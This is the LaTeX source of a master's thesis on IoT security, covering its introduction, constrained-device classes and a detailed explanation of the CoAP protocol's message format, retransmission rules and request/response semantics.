\documentclass{article}

\usepackage{tabularx}
\usepackage{amsmath}
\usepackage{graphicx}
\usepackage{lscape} 
\usepackage{ltxtable}
\usepackage{hyperref}
\usepackage{listings}
\usepackage{amssymb}% http://ctan.org/pkg/amssymb
\usepackage{pifont}% http://ctan.org/pkg/pifont

\newcolumntype{T}{>{\Centering\arraybackslash}X} % centered "X" column
\newcolumntype{s}{>{\hsize=.5\hsize}X}

\setlength{\parindent}{0in}

 \lstset{
 	frame=tb,
	breaklines=true,
	showstringspaces=false,
	columns=flexible,
	tabsize=2
}



\title{My thesis}
\author{Loris Cortesi}


\begin{document}
	\maketitle
	\newpage
	\tableofcontents
	\listoffigures
	\listoftables
	\pagenumbering{arabic}
	\newpage
	
		\chapter{Introduction}
	Internet of Things (IoT) is a neologism, introduced by Kevin Ashton in 1999, which has become popular in recent years due to
	growing interest from companies and the fact that nowadays it is possible to produce small devices with a reasonable computational power;
	these small devices are embedded in objects in order to make them, in some way, ``\emph{smart}''.\\
	
	IoT has a variety of different applications; ranging from everyday things like watches that measure how many kilometers we have walked during the day, to smart homes that control the air conditioning system based on temperature and pollution in the air, or even smart cities where semaphores adjust their times based on traffic condition.\\
	But these are only three examples, IoT extends also to other field like health care, industrial monitoring, self driving cars and agriculture.\\
	
	Think about an array of ``smart'' thermometers placed in a forest to detect arson, if the temperature is above
	a certain treshold, then if means that something is on fire and firefighers must get into action as soon as possible.
	With a system like that we could stem the fire before it spreads too much on the forest; think about the amount of money,
	trees, animal, water and human resource we could save with a system like that.\\
	
	Healthcare is another interesting field for IoT, by inserting sensors in medical object we could help medic
	in making diagnosis for his patients.
	One possible example could be a ``smart'' insulin pump that sends data to the smartphone of the patient, then the smartphone sends the data to a cloud, the data will be analyzed by the medic that could contact the patient if something
	is wrong or edit the parameters of the insulin pump in order to change the therapy.
	The smartphone application could also store the data in order to make a log for the user in order to avoid him
	this boring activity.\\
	
	
	The IoT is also changing the way software is developed: in order to produce a good IoT system, companies are required to cooperate each other,
	moving from a one-company-does-it-all perspective to a let’s-work-together approach~\cite{successiot}, this means that proprietary systems 
	are no more a good choice and companies should embrace open systems in order to cooperate in a better way.\\
	
	From a financial point of view, IoT seems like a very profitable market, it is estimated that the global IoT market will grow to \$457B by 2020~\cite{forbes},by assuming this forecast as real, it means that lots of devices will be deployed in the network. Exposing a device
	or an host on the Internet also means exposing it to possible threats.\\
	An interesting case of insecure IoT system is given by a luxury hotel in Austria ~\cite{whydoiot}: the electronic key system was attacked
	by hackers that locked out (or in, it depends) guests from their rooms, until they paid a ransom.
	Long story short: after the attack, the hotel reverted to physical keys.\\
	Starting from this real case scenario we can imagine other problematic situations that does not imply an attack, for instance: if a blackout occurs, can a guest still access his well paid room?\\
	What if the content of the electronic key is not encrypted and it is possible to change its content in order to access other guests' rooms?\\
	This event should also make us think if we really need an IoT system for every aspects of our life: an electronic key system is
	surely comfortable as you can configure the electronic key as you want in few seconds; on the other hand, it is quite easy to overwrite the content
	of an electronic key, while it is a bit more difficult to craft the copy of a physical key (if you are not a professional burglar).\\
	Another interesting and funny case of insecure devices is provided by CloudPets~\cite{toys} a company that produces toys, and in particular: Internet-connected fluffy animals toys.
	These toys were able to connect via Bluetooth to a smartphone's app in order to download and upload audio messages and it is possible to access the voice recordings without any authentication if you known the exact URL at which they were stored.\\
	The Guardian states that ``The personal information of more than half a million people who bought Internet-connected fluffy animals has been compromised'', it does not sounds like a good advertisement
	when the personal informations are: username, password, profile pictures and voice recordings.\\
	\emph{Note:} the passwords were cracked easily because they were extremely easy to guess (``password'', ``123456'',``qwerty'', ``qwerty123456'' and so on).\\
	Another interesting thing to highlight is that "The personal information was contained in a database connected directly to the Internet, with no usernames or passwords preventing any visitor from accessing all the data", this could mean that the entire application was developed without any security requirements or knowledge.\\
	 
	The security aspect of an IoT application is not only related to external attack by criminals but it also extends to reliability. Think about a power plant monitored by
	an IoT system: if it is not well designed and for some reason it does not take the proper countermeasures to avoid an overload, a blackout can occur and the consequences can be very bad, mostly from the financial point of view.\\
	These are the reasons why I am interested in analyzing the security aspect of IoT applications, considering that in near future
	IoT could be integral part of our lives I think it is crucial to develop secure systems.
	
	
	\section{Structure of an IoT application}
	Most of the time an IoT system is a large scale application that put in place different protocols, hardware and software.\newline
	From the protocol point of view there are lots of choices, just to list some of them: HTTP, MQTT, WebSocket and CoAP;
	each one has advantages and disadvantages, so it is crucial to choose the one that fits well your business logic; also taking in mind
	that some protocols, like MQTT or CoAP, are used in sensors-server communications, while HTTP and WebSocket
	are used for client-server communications.\newline
	While dealing with IoT we encounter a plethora of different hardware: from the constrained device with low computational power to
	high performance cluster machines. Basically the dirty work is moved from lots of low power devices to servers,
	that will elaborate this data or forward it to the cloud in order to elaborate them in a faster way.\newline
	On the software front we can work with a variety of programming languages: from low level assembly to high level languages like C\# or JavaScript.\newline
	The development of an IoT system also requires a deep knowledge of different parts of an application, so the development team
	should consist of people with different skill and specialization.\newline
	This little overview should help you to understand how difficult could be to design and develop an IoT application; Figure \ref{fig:intro0} illustrates a schema of the architecture of an IoT application.\newline
	
	\begin{figure}
		
\includegraphics[width=\linewidth]{intro-000.png}
		\caption{Possible architecture of an IoT application.}
		\label{fig:intro0}
	\end{figure}
	
	\section{Covered topics}
	
	This thesis analyzes two IoT protocols: CoAP and WebSocket.\newline
	I chose these two protocols because they allow me to show how communication occurs on two different front:
	\begin{itemize}
		\item the sensor-server; where the server collects incoming data from the sensors, then the server proceed with some elaborations;
		\item and the client-server front, where the client requests data from the server in order to show them to the final user.
	\end{itemize}

	CoAP, described in Chapter \ref{ch:coap}, is a protocol that works on the sensor-server part of the application, while WebSocket, described in Chapter \ref{ch:ws}, focus
	on the client/server side. WebSocket is more flexible than CoAP, indeed, it can be used for
	tasks that where not taken into account during its design phase, while CoAP is a very specialized
	protocol that suits well only in certain constrained scenarios.\newline
	WebSocket can be used on the sensor-server side but, as we will analyze in details in the next chapter,
	we deal with constrained devices that may lack the proper resources to implement the protocol.\newline
	
	
	A constrained device is small, has low computational power and little memory, it virtually lacks the resources
	we could expect from a modern Internet node; examples of constrained devices are: sensors, dated micro-controllers and hardware platform like Arduino.\newline
	While dealing with these devices, optimization is crucial on various fronts: the power consumption is not negligible,
	and the same can be said about the bandwidth usage (if available), even the maximum code complexity and the total required memory are parameters that we must take into account.\newline
	When a constrained device is attached to a network it is also identified as a constrained node, two or more nodes form a network that may have some constraints such as: unreliability, lossy channel, dynamic topology and unpredictable bandwidth, and these constraints characterize the constrained network.\newline
	In order to be more precise, a network is a constrained-node network when the constraints are imposed by the node
	and not by the network infrastructure itself.
	
		\begin{table}[h!]
		\begin{center}
			\begin{tabularx}{\textwidth}{|l|l|l|X|}
				\hline
				\textbf{Class} & \textbf{Data size} & \textbf{Code size} & \textbf{Description}\\
				\hline
				C0 & $\ll 10KiB$  & $\ll  100KiB$ &A device of class C0 has no direct access to the Internet,
												   or it may not establish a secure connection.
												   It is pre-configured or configured by an human operator.\\
				\hline
				C1 & $\sim 10KiB$ & $\sim 100Ki$B &A C1 device has no full stack protocol support
													but can handle special purpose protocol,
													memory and CPU must be used carefully.\\
				\hline
				C2 & $\sim 50KiB$ & $\sim 250KiB$ &Less constrained and capable of handling
												   the same protocol stack of a server,
												   but the amount of energy available is limited.\\
   				\hline
			\end{tabularx}
			\caption{Constrained devices classification.}
			\label{tab:table1}
		\end{center}
	\end{table}
	
	A constrained device belongs to one of the classes described in table \ref{tab:table1}.\newline
		\begin{table}[h!]
		\begin{center}
			
			\begin{tabular}{|l|l|}
				\hline
				\textbf{Class} & \textbf{Type of energy limitation}\\
				\hline
				E0 & Event energy limited.\\\hline
				E1 & Period energy limited.\\\hline
				E2 & Lifetime energy limited.\\\hline
				E3 & No direct quantitative limitation to available energy.\\\hline
			\end{tabular}
			\caption{Constrained devices energy classification.}
			\label{tab:table2}
		\end{center}
	\end{table}
	
	Also, a device is classified by its energy consumption as illustrated in table \ref{tab:table2}.
	
	A device is classified as E0 when the energy is consumed only when certain event occur, an E1 device has a battery 
	that is periodically recharged or replaced.\newline
	On the other hand an E2 device has a non-replaceable primary battery and when it exhausts, the device life cycle ends; lastly an E3 device has an unlimited source of energy so it is not constrained on this front.\newline 
	
	The main sources of energy consumption are: wireless and long communication; in order to save as much energy as possible different strategies can be applied.\newline
	If there is no need for extreme power saving a device can be always on, in this case it is necessary to use power friendly hardware in order to avoid wasting of energy and money.\newline
	In other cases a device could be off most of time and it will wake up only when needed, in this case the wake up and the reconnection to a network can be costly from an energy point of view, but it is considered a good trade off.\newline
	A device may have low power consumption as it can operate with small amount of power; in this special case the device can be always on.
	
	After analyzing the two protocols, in Chapter \ref{ch:vuln} we will focus on their vulnerabilities and possible attacks to show
	how important is to use them in a correct way in order to achieve security in IoT applications.\newline
	It is important to highlight that both communications: sensors-server and client-server must be secure in order to guarantee
	the security of the whole application, if the sensors-server is secure but the client-server is not, then an
	attacker could compromise the entire application while acting only on one front; of course this is true even for the other way around.\newline
	
	For the client-server front, in Chapter \ref{ch:best}, we list the best practice to write a secure application, this section of the thesis
	is a mix of previous knowledge learned during the security course attended in the first year of the MsC and new one
	acquired during the internship at Abo Data.\newline
	
	Finally, in Chapter \ref{ch:end} we will describe the experience in the company and draw some conclusion. We discuss two real IoT applications in order to have an in-depth overview of IoT applications.\newline
	Then we will the detected security flaws and how it was possible to fix them and evaluate how difficult it was.\newline
	We analyze how security influences the development of an application and the reasons why sometimes it is neglected.
	In the end we discuss how security should be an important part during the design and development phase of an application
	and not a final add-on for the system.\newline
	
	
		\section{Constrained node network}
	A constrained device is small, has low computational power and little memory.
	Basically, it lacks the resources that we could expect from a basic Internet node.\newline
	Optimization of power consumption and bandwidth is extremely important; even the maximum code complexity and the maximum RAM available must be taken into account.\newline
	When a constrained device is attached to a network it is identified as a constrained node, lots of constrained nodes form a network that may have some constraint such as: unreliability, lossy channel, dynamic topology and unpredictable bandwidth.\newline
	A constrained network is characterized by: low bandwidth, high packet loss and asymmetric link characteristics, absence of multicast communication and high penalties in using large packets.\newline
	A network is called constrained-node network when the constraints are imposed by the node.
	
		\begin{table}[h!]
		\begin{center}
			\begin{tabularx}{\textwidth}{|l|l|l|X|}
				\hline
				\textbf{Class} & \textbf{Data size} & \textbf{Code size} & \textbf{Description}\\
				\hline
				C0 & $\ll 10KiB$  & $\ll  100KiB$ &A device of class C0 has no direct access to the Internet,
												   or it may not establish a secure connection.
												   It is pre-configured or configured by an human operator.\\
				\hline
				C1 & $\sim 10KiB$ & $\sim 100Ki$B &A C1 device has no full stack protocol support
													but can handle special purpose protocol,
													memory and CPU must be used carefully.\\
				\hline
				C2 & $\sim 50KiB$ & $\sim 250KiB$ &Less constrained and capable of handling
												   the same protocol stack of a server,
												   but the amount of energy available is limited.\\
   				\hline
			\end{tabularx}
			\caption{Constrained devices classification.}
			\label{tab:table1}
		\end{center}
	\end{table}
	
	A constrained device belongs to one of classes described in table \ref{tab:table1}.\newline
		\begin{table}[h!]
		\begin{center}
			
			\begin{tabular}{|l|l|}
				\hline
				\textbf{Class} & \textbf{Type of energy limitation}\\
				\hline
				E0 & Event energy limited.\\\hline
				E1 & Period energy limited.\\\hline
				E2 & Lifetime energy limited.\\\hline
				E3 & No direct quantitative limitation to available energy.\\\hline
			\end{tabular}
			\caption{Constrained devices energy classification.}
			\label{tab:table2}
		\end{center}
	\end{table}
	
	A device can also be classified from the point of view of energy consumption as illustrated in table \ref{tab:table2}.
	
	The main sources of energy consumption are: wireless communication and long communication; in order to save as much energy as possible different strategies could be applied in different scenarios.\newline
	If there is no need for extreme power saving a device could be always on, in this case it is necessary to use power friendly hardware in order to avoid wastes of energy and money.\newline
	In other cases a device could be off most of time and it will wake up only when needed, in this case the wake up and the reconnection the network
	could be costly from an energy point of view, but it is considered a good trade off.\newline
	It is also possible that a device has low power consumption as it can operate with small amount of power; in this case it is a special case of an always on device.
	
	
	\section{CoAP}
	CoAP stands for Constrained Application Protocol, it is a protocol specialized for use with constrained nodes or network, where the computational power is low and the power consumption is not negligible.\newline
	The nodes are characterized from the small amount of memory and by dated microcontroller.\newline
	
	CoAP is defined by IETF in the RFC 7252.\newline

	CoAP belongs to the UDP based protocol family, UDP has been chosen for performance reason, because as said a little while ago, this protocol deals with constrained devices, which may not be powerful enough to handle a protocol like HTTP.\newline
	
	CoAP can be seen as a lightweight version of HTTP that meet with the technical specification of sensor and embedded machine; as we will see during this chapter, CoAP and HTTP share some technical details, that is not a case, in fact CoAP is designed to easily translate to HTTP in order to achieve a simplified integration with the web.\newline
	\newline
	In order to be a lightweight protocol, CoAP treats data in a very careful way in order to avoid massive in communication, that is why each message has a short fixed length binary header of only four byte; even if CoAP is designed to be as light as possible and it is based con UDP it has a reliability mechanism that allows the sender to know if the message sent has been received.\newline
	\newline
	There are two kinds of messages in CoAP:
	\begin{itemize}
		\item Confirmable (CON)
		\item Non-confirmable (NON)
	\end{itemize}
	Only CON messages are considered reliable, in fact a Confirmable message is retransmitted using a default timeout plus an exponential back-off between retransmission, this occurs until the recipient does not send an ACK message back to the sender.\newline
	As CoAP is built upon UDP, it is also possible to use multicast IP destination addresses, thus this protocol can handle multicast requests.\newline
	This was a general picture of the Constrained Application Protocol, now we will analyze it in details.\newline
	\subsection{Message Structure}
	A message, in CoAP, is encoded in a binary format and characterized by:\newline
	\begin{itemize}
		\item A header
		\item A variable length token
		\item Zero or more options
		\item An optional payload
	\end{itemize}
	The header is 4 byte long, the token has a variable length, which can be between 0 or 8 byte, the options and payload sizes are variable.\newline
	The header is composed by five parameters:\newline
	\begin{enumerate}
		\item \texttt{Ver}: specify the CoAP version number with 2 bit, a CoAP implementation must set this field to 1, other values are reserved for future version, a message with unknown version number must be ignored.
		\item \texttt{T}: specifies the message's type with 2 bit:
		\begin{enumerate}
			\item 00 CON message
			\item 01 NON message
			\item 10 ACK message
			\item 11 RST message
		\end{enumerate}
		\item \texttt{TKL}: specifies the token length with 4 bit, length from nine to fifteen are reserved and must not be used and must be treated like a message error format.
		\item \texttt{Code}: this field is 8 bit length, the first 3 most significant bits specify the class, and the 5 least significant bit specify the details.
		Basically we are specifying a message code in this way: “c.dd” where c is the class and dd the details, we will talk about the message code in details later.
		\item \texttt{Message ID}: it is used to identify a message, it also used to detect duplicate message and to match ACK/RST message, and its dimension is 16 bit.
	\end{enumerate}
	
	The token value is used to link requests and responses.\newline

	Then there are zero or more options, an option can be followed by: the end of the message, another option or by the payload.\newline
	Each option instance specifies the Option number of the defined CoAP option, the length of the Option value, and the Option value itself.\newline
	The instance must appear in order of their option numbers and a delta encoding is used between them in order keep the options field as short as possible.\newline
	The Option number for each instance is calculated as the sum of its delta and the Option Number of the preceding instance in the message.\newline
	For the first instance, a preceding option with Option Number zero is assumed.\newline
	It is possible to include multiple instance of the same Option by using a delta of zero.\newline
	The structure is the following:\newline
	\begin{itemize}
		\item \texttt{Option delta}: specifies a value between 0 and 12 and is used as the difference between the Option Number of the current option instance and the previous one, its length is 4 bit.
		Values between 13 and 15 are reserved.
		If the value is 15 the message must be treated as message format error.
		\item \texttt{Option length}: specifies a value between 0 and 12 and indicates the length of the Option value.
		Its length is 4 bit and values between 13 and 15 are reserved, as before 15 must be treated as message format error.
		\item \texttt{Value}: a sequence of exactly Option Length bytes.
	\end{itemize}

	At the end, if present and of non-zero length, there is the payload prefixed by a payload marker of one byte: \texttt{0xFF}.\newline
	The payload length is not specified but calculated from the datagram size; on the other hand if the payload marker is absent the payload length is zero.\newline
	If the payload marker is present but followed by a zero-length payload, then the message must be treated like a message error format.\newline
	A CoAP message is transferred via one the following protocol: UDP, DTLS, SMS, TCP, and SCTP.\newline
	UDP-lite and UDP zero checksum are not supported.\newline
	\newpage
	%da finire sto cesso di tabella
	%\begin{lscape}
		%\begin{table}
		%\end{table}
		%\begin{center}
			%\begin{tabular}{|l|l|l|l|l|l|l|l|l|l|l|l|l|l|l|l|l|l|l|l|l|l|l|l|l|l|l|l|l|l|l|}
			%	\hline
			%	0&1&2&3&4&5&6&7&8&9&10&11&12&13&14&15&16&17&18&19&20&21&22&23&24&25&26&27&28&29&30&31&32\\\hline
		%	\end{tabular}
	%	\end{center}
	%	\caption{CoAP header.} 
	%	\label{tab:coapHeader}
	%	\end{table}
%	\end{lscape}

	\newpage
	%\begin{table}[h!]
			%\resizebox{\textwidth}{!}{\begin{tabular}{|s|s|s|s|s|s|s|s|s|s|s|s|s|s|s|s|s|s|s|s|s|s|s|s|s|s|s|s|s|s|s|}
			%\begin{tabularx}{\textwidth}{}
			%	\hline
			%	0&1&2&3&4&5&6&7&8&9&10&11&12&13&14&15&16&17&18&19&20&21&22&23&24&25&26&27&28&29&30&31&32\\\hline
				
			%\end{tabularx}
			%\caption{CoAP header.}
			%\label{tab:coapHeader}
		
	%\end{table}
	
	\subsection{Request/Response model}
	CoAP request and response semantics are carried in messages with the aid of method code and response code.\newline
	Optional information, such as URI and payload are carried as options.\newline
	Token and Message ID are separate concept but at a first look they seems the same, so be careful.\newline
	\newline
	A message regardless of being a CON or NON carries a request, when the server receive the request it sends back and ACK message that could have the response or not, in the latter case the server will
	send a new message with the response, this is done in order to stop the retransmission of the request by the client.\newline
	The first case is known as piggybacked response, the second one as separate response, if possible the server will return the response as a piggybacked response, of course if the request require some
	times in order to be processed the protocol will rely on the separate response.\newline
	If the request is sent as a NON message, then the response is a new NON message,  but the server may send a CON message.\newline
	\newline
	In order to be as fast as possible in fulfilling requests CoAP supports caching of requests, thus it is possible to provide piggybacked response.\newline
	
	Figure \ref{fig:coap0} illustrates two simple client/server communications.
	
	\begin{figure}
		
\includegraphics[width=\linewidth]{coap-img0.png}
		\caption{Example of CoAP request/response model, at left the request is fulfilled, on the right it is not.}
		\label{fig:coap0}
	\end{figure}

	CoAP uses method in a similar way to HTTP but not exactly the same, the supported methods are: \newline
	\begin{itemize}
		\item GET
		\item PUT
		\item POST
		\item DELETE
	\end{itemize}
	But new methods could be added in future revision of the protocol.\newline
	The most of URI handling is delegated to the client; in fact it parses the URI and splits it into:\newline
	\begin{itemize}
		\item Host
		\item Port
		\item Path
		\item Query components
	\end{itemize}

	\subsection{Message transmission}
	The communication between endpoints is asynchronous, also take in mind that messages may arrive out of order, appear duplicated or
	go missing due to the unreliability of UDP.\newline
	As said, CoAP define a reliability mechanism, but it is not mandatory to use CON message, also it is different from the TCP
	reliability model, the features are the following:\newline
	\begin{itemize}
		\item Stop and wait retransmission reliability with exponential back-off, only for CON messages.
		\item Duplicate detection for both CON and NON messages.
	\end{itemize}

	An endpoint is the source or destination of a message, it is identified by the security mode used, we will talk about it later, but
	if no security mode is used, the endpoint is identified by an IP address and a UDP port number.\newline
	When a message is transmitted reliably it means it is marked as CON in the header and it always carries either a request or
	response, unless it is used only to elicit a RST message, in which case it is Empty.\newline
	There are two possible scenarios when the recipient receives a message:\newline
		\begin{itemize}
		\item It can acknowledge it by sending an ACK with the same Message ID of the CON message; it also must carry a response or be empty
		\item Otherwise if the recipient is not capable of handling the message, it must reject it by sending a RST that match the Message ID of the CON message and it must be empty.
	\end{itemize}

	Another way is to simply ignore the message.\newline
	In order to reject an ACK or RST message the endpoint can simply ignore it.\newline
	The recipient of an ACK or RST must not respond with an ACK or RST.\newline
	The sender retransmits the CON message at exponentially increasing intervals, 
	until it receives an ACK or stop because it runs out of attempts.\newline
	The retransmission is governed by a timeout and a retransmission counter.\newline
	When a new CON is transmitted the initial timeout is set to random duration between
	\texttt{ACK\_TIMEOUT} 
	and \texttt{ACK\_TIMEOUT$\cdot$ACK\_RANDOM\_FACTOR}, while the retransmission counter is set to 0.\newline
	Where \texttt{ACK\_TIMEOUT} and \texttt{ACK\_RANDOM\_FACTOR} are constant defined by the final implementation of the protocol.\newline
	Every time the timeout triggers and the counter is less than \texttt{MAX\_RETRANSMIT}, the message is retransmitted, the counter is incremented and the timeout is doubled.\newline
	If the retransmission counter is greater than \texttt{MAX\_RETRANSMIT} or the sender receives a RST message the retransmission is aborted.
	Of course, if the sender receives an ACK the transmission is considered successful.\newline
	An endpoint may also give up in attempting to obtain an ACK even before reaching the \texttt{MAX\_RETRANSMIT} counter, the application may
	cancel the request for various reason.\newline
	When a message is transmitted without reliability the recipient must not send back an ACK message.\newline
	If a recipient is not capable of handling a message because it lacks content to process or because it is malformed it must reject
	the message.\newline
	
	A recipient might receive a NON message multiple times within \texttt{NON\_LIFETIME}.\newline
	The recipient should process the request in the message only once; every duplicate message should be ignored.\newline
	Talking about the message size, it is important to keep it small enough to into the link layer packet, this is, of course, not always possible.\newline
	CoAP only define an upper bound to the message size, and in general messages larger than IP packet they end up bringing undesirable packet fragmentation.\newline
	As a general rule a CoAP message should fit within a single IP packet, also take in mind that the maximum transmission unit (MTU) is 1280 byte if no other optimal values is known.\newline
	As you may have noticed we have cited some variable without specifying their values, in the following table we have the default values 
	for these variables.\newline
	
		\begin{table}[h!]
		\begin{center}
			\begin{tabular}{|l|l|}
				\hline
				\textbf{Name} & \textbf{Default value}\\\hline
					\texttt{ACK\_TIMEOUT} &	2 seconds\\\hline
					\texttt{ACK\_RANDOM\_FACTOR} & 1.5 \\\hline
					\texttt{MAX\_RETRANSMIT} & 4 \\\hline
					\texttt{NSTART} & 1 \\\hline
					\texttt{DEFAULT\_LEISURE} &	5 seconds \\\hline
					\texttt{PROBING\_RATE} & 1 byte/second \\\hline
			\end{tabular}
			\caption{List of constants defined by CoAP.}
			\label{tab:table3}
		\end{center}
	\end{table}

	The value listed in table \ref{tab:table3} are recommended in order to avoid congestion on the Internet, of course it is possible to 
	customize the configuration as you like, in order to meet the environment requirement.\newline
	Take in mind that \texttt{ACK\_TIMEOUT}, \texttt{ACK\_RANDOM\_FACTOR} and \texttt{MAX\_RETRANSMIT} influence the time of retransmission,
	thus they also influence how long certain information need  to be  kept in memory by an implementation.\newline
	In addition, the protocol also defines the variable listed in table \ref{tab:table4} derived from variables of table \ref{tab:table3}.\newline
	
		\begin{table}[h!]
		\begin{center}
			
			\begin{tabularx}{\textwidth}{|l|X|}
				\hline
				\textbf{Name} & \textbf{Description}\\\hline
				\texttt{MAX\_TRANSMIT\_SPAN} & Is the maximum time from the first transmission of a CON message to its last.\\\hline
				\texttt{MAX\_TRANSMIT\_WAIT} & Is the maximum time from the first transmission of a CON message to when the sender gives up on receiving an ACK or RST.\\\hline
				\texttt{MAX\_LATENCY} & Is the maximum time a datagram is expected to take from the sender to the recipient.\\\hline
				\texttt{PROCESSING\_DELAY} & Is the expected time a node will take to send back an ACK to a received CON message.\\\hline
				\texttt{MAX\_RTT} & Maximum round trip time.\\\hline
				\texttt{EXCHANGE\_LIFETIME} & Is the time from starting to send a CON message to when an ACK is no longer expected.\\\hline
				\texttt{NON\_LIFETIME} & Is the time from starting to send a NON message to when its Message ID can be safely used again.\\\hline
			\end{tabularx}
			\caption{Derived variables defined in CoAP.}
			\label{tab:table4}
		\end{center}
	\end{table}	
	
	Here the formulas for the variables listed in table \ref{tab:table4}.
	
	\begin{equation}
		\texttt{MAX\_TRANSMIT\_SPAN}=\texttt{ACK\_TIMEOUT}\cdot(2^{\texttt{MAX\_RETRANSMIT}}-1)\cdot\texttt{ACK\_RANDOM\_FACTOR}
	\end{equation}
	
	\begin{equation}
	\texttt{MAX\_TRANSMIT\_WAIT}=\texttt{ACK\_TIMEOUT}\cdot(2^{\texttt{MAX\_RETRANSMIT+1}}-1)\cdot\texttt{ACK\_RANDOM\_FACTOR}
	\end{equation}
	
	\begin{equation}
	\texttt{MAX\_LATENCY}=100 seconds
	\end{equation}
	
	\begin{equation}
	\texttt{PROCESSING\_DELAY}=\texttt{ACK\_TIMEOUT}
	\end{equation}
	
	\begin{equation}
	\texttt{MAX\_RTT}=2\cdot\texttt{MAX\_LATENCY}+\texttt{PROCESSING\_DELAY}
	\end{equation}
	
	\begin{equation}
	\texttt{EXCHANGE\_LIFETIME}=\texttt{MAX\_TRANSMIT\_SPAN}+2\cdot\texttt{MAX\_LATENCY}+\texttt{PROCESSING\_DELAY}
	\end{equation}
	
	\begin{equation}
	\texttt{NON\_LIFETIME}=\texttt{MAX\_TRANSMIT\_SPAN}+\texttt{MAX\_LATENCY}
	\end{equation}
	
	In table \ref{tab:table5}, the default values are listed.
	
		\begin{table}[h!]
		\begin{center}
			\begin{tabular}{|l|l|}
				\hline
				\textbf{Name} & \textbf{Default value}\\\hline
				\texttt{MAX\_TRANSMIT\_SPAN} & 45 seconds\\\hline
				\texttt{MAX\_TRANSMIT\_WAIT} & 93 seconds\\\hline
				\texttt{MAX\_LATENCY} & 100 seconds\\\hline
				\texttt{PROCESSING\_DELAY} & 2 seconds\\\hline
				\texttt{MAX\_RTT} & 202 seconds\\\hline
				\texttt{EXCHANGE\_LIFETIME} & 247 seconds\\\hline
				\texttt{NON\_LIFETIME} & 145 seconds\\\hline
			\end{tabular}
			\caption{Default values of derived variables in CoAP.}
			\label{tab:table5}
		\end{center}
	\end{table}	
	
	\subsection{Semantic}
	
	CoAP works in a similar way to HTTP, even in CoAP the client sends one or more requests to a server, which sends back responses.\newline
	The main difference between CoAP and HTTP is the lack of a previously established connection because CoAP messages are exchanged asynchronously.\newline
	A CoAP request is made up by a method, the resource which the method will be applied, the identifier of the resource,
	a payload and an Internet media type and optional metadata.\newline
	As said before, the supported methods are:\newline
	\begin{itemize}
		\item GET A GET request retrieves a representation for the information that corresponds to the resource specified by the request URI.
		It is considered safe because it must not take any other action on a resource, it only need to retrieve the resource.
		It must be idempotent.
		
		\item POST When the server receives a POST request it process the representation enclosed in the request.
		What is performed is determined by the origin server and not by the protocol.
		If a resource has been created on the server, the response should be a 2.01 and should include the URI of the new resource.
		If a new resource is not created by a POST request, the server should send back a 2.04 response.
		It is not idempotent because its effect is determined by the server.
		
		\item PUT It creates or updates the resource specified by the request URI.
		If a resource exists, the resource is updated and the server should send back a 2.04 response.
		On the other hand if the resource did not exist, it will be created and the server should send back a 2.01 response.
		It is not safe but it must be idempotent.
		
		\item DELETE When the server receives a DELETE request it should delete the specified resource.
		It is not safe but it must be idempotent.
		
	\end{itemize}
	A CON or NON message with the Code field set with all the information needed is a request.\newline
	When a server receives a request, the request is interpreted and the server responds with a CoAP response that has the same token generated by the client.\newline
	Take in mind that the token is different from the Message ID, the Message ID is used to match a CON to its ACK.\newline
	A response is a CoAP message that has the Code field set to a Response Code.\newline
	There are three classes of Response Codes:\newline
	\begin{enumerate}
		\setcounter{enumi}{1}
		
		\item Success
		The request was received, understood and accepted.
		
		\setcounter{enumi}{3}
		
		\item Client Error
		The request was received but contains error and it was not possible to fulfill it.
		
		\item Server Error
		The request was received and understood but the server failed to fulfill it.
		
	\end{enumerate}
	
	The Response Codes are designed to be extensible, if a Response Code is not recognized it must be treated as the generic Response Code of its class.\newline
	In the following table are listed the available Response Codes.\newline
	
	\LTXtable{\textwidth}{table/006-responses}
	
	

	When possible the response is carried directly in the ACK message that acknowledges the request, this is a piggybacked response.\newline
	The response is returned in the ACK regardless it is a success or a failure; there is no need to send a separate message.\newline
	The server is free to choose to send a piggybacked response or a separate response, but the client must be prepared to receive both.\newline
	
	If the server is not capable to provide a piggybacked response it will send a separate response.\newline
	Usually, a separate response is used when the server might need some time to acquire a resource and perform the client’s request; for this reason one possible implementation is the following:
	\begin{itemize}
		\item When the server receives a request, it immediately sends back an Empty ACK.
		\item Then the server will try to obtain the specified resource.
		\item When the server obtains the resource, it sends back the response.
		It sends the response as a CON message and waits the Empty ACK message from the client.
	\end{itemize}
	If the server receives the same message multiple times, and it has just sent an ACK message, it must not send back the response in another ACK.
	
	When the request is a NON message, the response should be returned in a NON message as well.
	
	An important thing to keep in mind is that a client must be prepared to receive a NON response even if the request was a CON message, or vice-versa a CON response in reply to a NON request.
	
	A response match a request if they have the same token and they match additional information like the address.\newline
	The token is used to identify concurrent requests from the same client; the client should generate tokens that are unique for a given source/destination endpoint pair.\newline
	Also note that a client should generate nontrivial, randomized token if TLS is not used, this is recommended in order to avoid trivial spoofing of responses.\newline
	
	The rules for matching a response to a request are the following:
	\begin{itemize}
		\item The source of the response must match with the destination of the original request.
		\item In a piggybacked response, the Message ID of the CON request and the ACK must match; even the token of the CON message must match with token of the ACK message.
	\end{itemize}
	A request may carry some options; CoAP defines a set of options that are used in requests and even in responses, table \ref{tab:table7} lists all the possible options.
	
		\begin{table}[h!]
		\begin{center}
			\begin{tabularx}{\textwidth}{|l|X|}
				\hline
				\textbf{Name} & \textbf{Description}\\\hline
				Content-Format & Specifies the format of the payload.
				If this Option is missing and a payload is included, no default value is assumed.\\\hline
				
				ETag & Specifies an entity-tag, it is a local identifier for the same resource that may vary over time.
				It is generated by the server that provides the resource.
